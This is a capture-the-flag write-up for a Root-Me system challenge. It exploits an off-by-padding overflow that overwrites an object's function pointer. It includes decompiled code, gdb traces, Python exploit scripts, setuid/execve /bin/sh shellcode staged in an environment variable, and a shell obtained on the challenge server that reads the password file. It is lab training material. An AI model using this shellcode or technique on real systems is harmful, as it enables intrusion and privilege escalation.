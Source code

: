 ### S0lv3d by H4yicl3

First i download binary file with my scp-script
```
#!/bin/sh
echo "password = app-systeme-$1"
scp -P2222 app-systeme-$1@challenge02.root-me.org:./$1 ./

then ./scp [name_of_challenge]
```
I use IDA to analysis the code .
```c
int __cdecl MyStringFormatter::MyStringFormatter(int a1, int a2)
{
  int result; // eax@1

  *(_DWORD *)(a1 + 80) = a2;   // (a1 +80)buffer s input (80 byte)
  result = a1;
  *(_DWORD *)(a1 + 84) = 1;    // (a1+ 84) pointer
  return result;
}
```
that equal source c
```c
class MyStringFormatter
{
public:
    MyStringFormatter( formatter * pFormatter  ):m_pFormatter(pFormatter),m_Id(1) {};  //this function is decompiled by IDA
    void GetInput(int padding )  {
        memset(str ,' ' , SIZE  ); fgets(str+padding,SIZE,stdin); }
    void display() const{m_pFormatter->format(str) ;}
protected:
    char str[SIZE];		//buffer s 
    formatter * m_pFormatter ;  //pointer - >overflow this
    int m_Id;	
};
```
but we meet this in function input
```c
char *__cdecl MyStringFormatter::GetInput(MyStringFormatter *this, int padding)
{
  memset((void *)this, 32, 0x50u);
  return fgets((char *)this + padding, 80, stdin);		//fgets that mean we just write 80 byte 
								//but we have pointer + padding 
}
```
and padding found here
```c
puts("Padding : 1-5\r");
  v3 = fgets((char *)&size, 4, stdin);				//we can overflow more 4 byte to give it come 4
  padding = atoi(v3);						//and we control the pointer 
  if ( padding < 0 || padding > 5 )
  {
    puts("Padding error\r");
    exit(0);
  }
```
after we control see that
```c
  MyStringFormatter::GetInput((MyStringFormatter *)&v12, padding); //after we overflow pointer
  MyStringFormatter::display((MyStringFormatter *)&v12);	   //pointer is called !!
```
So happy !! the program look so good if don't have padding value !! give us overflow the pointer !! So be careful when coding

i try to write my python script look like

```python
padding = "5"
choice  = "1"
buf ="A"*75
retn ="BBBB"
print padding + "\n" + choice +"\n" + buf + retn
```
with that script i controled the return address
i don't know why "A"*75 
so i use strace to analysis
```
python ch20.py |strace ./ch20 
 si_code=SEGV_MAPERR, si_addr=0x42424242} ---
+++ killed by SIGSEGV (core dumped) +++
Segmentation fault (core dumped)
```
maybe i am failure anywhere !! please tell me if you got the answer !!
now we do anything left
use the function getenv here http://pastebin.com/LZM64WGL
shellcode here
```
export hayicle=$(python -c 'print "\x90"*4+"\x31\xc0\x31\xdb\x31\xc9\xb0\x17\xcd\x80\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x8d\x54\x24\x08\x50\x53\x8d\x0c\x24\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"')
```
try run this
```
./getenv hayicle ch20
hayicle will be at 0xffffd8b0
```
now the python script look like
```python
padding = "5"
choice  = "1"
buf ="A"*75
retn ="\xb0\xd8\xff\xff"
print padding + "\n" + choice +"\n" + buf + retn
```
it dosen't work ?
what 's wrong !
i try debug with gdb i have that
```asm
gdb-peda$ pdis _ZNK17MyStringFormatter7displayEv
   0x08048a02 <+0>:     push   ebp
   0x08048a03 <+1>:     mov    ebp,esp
   0x08048a05 <+3>:     sub    esp,0x18
   0x08048a08 <+6>:     mov    eax,DWORD PTR [ebp+0x8]
   0x08048a0b <+9>:     mov    eax,DWORD PTR [eax+0x50]
   0x08048a0e <+12>:    mov    eax,DWORD PTR [eax]       <----------------it break here !! and eax store my return address
   0x08048a10 <+14>:    add    eax,0x8
   0x08048a13 <+17>:    mov    ecx,DWORD PTR [eax]
   0x08048a15 <+19>:    mov    edx,DWORD PTR [ebp+0x8]
   0x08048a18 <+22>:    mov    eax,DWORD PTR [ebp+0x8]
   0x08048a1b <+25>:    mov    eax,DWORD PTR [eax+0x50]
   0x08048a1e <+28>:    mov    DWORD PTR [esp+0x4],edx
   0x08048a22 <+32>:    mov    DWORD PTR [esp],eax
   0x08048a25 <+35>:    call   ecx			  <--------bug it call ecx !! that mean we can redirect to shell code
   0x08048a27 <+37>:    leave  
   0x08048a28 <+38>:    ret 
```
i summed the lines code that relative ecx
```
0x08048a0e <+12>:    mov    eax,DWORD PTR [eax]		//get value in memory at address eax
0x08048a10 <+14>:    add    eax,0x8			//add value with 8
0x08048a13 <+17>:    mov    ecx,DWORD PTR [eax]         //ecx = value at eax
0x08048a25 <+35>:    call   ecx 			//call ecx like a address
``` 
how we redirect to our shellcode ?

the first i mean and write a shellcode look like
```
export hayicle=$(python -c 'print "\x93\xd8\xff\xff"+"A"*4+"\x9f\xd8\xff\xff"+"\x90"*28+"\x31\xc0\x31\xdb\x31\xc9\xb0\x17\xcd\x80\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x8d\x54\x24\x08\x50\x53\x8d\x0c\x24\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"')
```
the python script look like
```python
padding = "5"
choice  = "1"
buf ="A"*75
retn ="\x93\xd8\xff\xff"
print padding + "\n" + choice +"\n" + buf + retn
```
now i explain !! 
the shellcode architect is :
```
hayicle = address_of_shell+junk(4byte)+address_of_shell+12+NOPslide("\x90")+shellcode
```
then i use getenv again to get the address of hayicle value
```
./getenv hayicle ./ch20
hayicle will be at 0xffffd893
```
and now i change tha hayicle value exactly
```
export hayicle=$(python -c 'print "\x93\xd8\xff\xff"+"A"*4+"\x9f\xd8\xff\xff"+"\x90"*28+"\x31\xc0\x31\xdb\x31\xc9\xb0\x17\xcd\x80\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x8d\x54\x24\x08\x50\x53\x8d\x0c\x24\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"')
``` 
run python script we can get the shell
```
(cat input ;cat)|./ch20
Padding : 1-5


        Convert in : 
          1: uppercase  
          2: lowercase  
String to convert: 
whoami
hayicle
```

Ok !! that's done!! GLHF guys!! 


The script i run in sever
```
app-systeme-ch20@challenge02:~$ (cat /tmp/ch20/input ;cat)|./ch20
Padding : 1-5


        Convert in : 
          1: uppercase  
          2: lowercase  
String to convert: 
ls
ch20  ch20.cpp
cat .passwd
```
so surprise !! it works !! 
